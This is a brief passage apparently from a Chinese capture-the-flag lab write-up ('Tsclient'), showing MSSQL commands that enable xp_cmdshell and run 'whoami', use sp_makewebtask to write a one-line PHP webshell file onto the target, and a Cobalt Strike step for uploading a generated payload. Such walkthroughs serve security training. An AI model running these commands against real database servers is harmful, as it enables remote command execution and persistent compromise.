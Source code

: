 执行命令

```
SQL> xp_cmdshell "whoami"
SQL> EXECUTE sp_configure 'show advanced options', 1;
SQL> RECONFIGURE;
SQL> EXECUTE sp_configure 'xp_cmdshell', 1;
SQL> RECONFIGURE;
```

写文件

```
SQL> exec sp_makewebtask 'C:\test1.php','select 一句话木马';
```



### CS

生成马上传到目标位置

![image-20230730174315271](img/春秋云镜-Tsclient/image-20230730174315271.png)
